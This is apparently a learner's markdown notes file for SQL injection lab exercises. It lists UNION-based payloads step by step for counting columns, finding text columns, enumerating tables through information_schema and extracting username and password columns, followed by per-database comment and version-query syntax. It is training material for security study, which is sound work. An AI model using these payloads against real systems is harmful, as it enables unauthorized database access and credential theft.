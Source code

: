 ### 1. SQL Injection UNION attack, determining the no of column

- __normal get request__
  - __`GET /filter?catergory=Gifts`__

- __check whether sql injection present or not__
  - __`GET /filter?catergory=Gifts'`__

- __Use UNION__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__



### 2. SQL Injection UNION attak, finding a column containing text

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'`__


- __Use UNION__
  - __`GET /filter?catergory=Pets'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__

- __Now you found there are three column__
  - __so now you need to find which of the column have string__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+'admin',NULL,NULL--`__
  - __If you are getting error then the column is not a string then go and test for the remaining colums__
  - > __Note: what string you are replacing by NULL the string definetly should be present in the column__


### 3. SQL Injection UNION Attack, retrieving multiple values in a single column

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'UNION+SELECT+NULL,NULL,username||'~'||password+FROM+users--`__




## non-Oracle databases

- __'+UNION+SELECT+NULL,NULL--__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`__

- __Extracting the column names from a table(users_kwechv)__
  - __`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kwechv'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(users_kwechv)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+users_kwechv--`__



# Types of database

- __1. Oracle__
- __2. Microsft__
- __3. PostgreSQL__
- __4. MySQL__


### Database comments
- __1. Oracle      | `--comment`__
- __2. Microsft    | `--comment or /*comment*/`__
- __3. PostgreSQL  | `--comment or /*comment*/`__
- __4. MySQL       | `#comment or -- comment or /*comment*/`__


### Database version
- __1. Oracle      | `SELECT banner FROM v$version or SELECT version FROM v$instance`__
- __2. Microsft    | `SELECT @@version`__
- __3. PostgreSQL  | `SELECT version()`__
- __4. MySQL       | `SELECT @@version`__











